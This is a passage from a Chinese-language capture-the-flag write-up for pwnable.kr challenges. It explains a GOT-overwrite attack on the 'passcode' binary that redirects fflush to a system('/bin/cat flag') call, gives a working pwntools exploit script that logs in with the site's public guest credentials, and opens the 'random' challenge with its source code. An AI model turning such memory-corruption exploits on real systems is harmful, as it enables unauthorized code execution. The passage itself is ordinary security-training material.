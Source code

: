 所以我们把地址修改到修改到0x080485E3就可以了

比如上面程序在

```c
scanf("%d", passcode1);
```

后立即使用了fflush函数，所以我们可以先找到fflush的got表项地址，

把覆盖passcode1为该地址

并在调用到scanf(“%d”, passcode1)

时输入程序代码中调用system("/bin/cat flag");处的地址(可在ida中找到)即可。

然后程序在执行fflush函数时就会执行system("/bin/cat flag");

Exp:

```
#coding=utf-8
from pwn import *

elf = ELF("./passcode")

fflush_got = elf.got["fflush"]
#print(hex(fflush_got))
sysh_addr=0x080485E3

shell=ssh(host='pwnable.kr',user='passcode',password='guest',port=2222)
#shell.download_file("./passcode.c")
#shell.download_file("./passcode")


payload="a"*(100-4)+p32(fflush_got)
sh=shell.run('./passcode')
sh.sendlineafter("enter you name :",payload)
payload=str(sysh_addr)
sh.sendlineafter("enter passcode1 :",payload)
sh.interactive()
```

## 0x06 random

关键源码

```cpp
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}
```
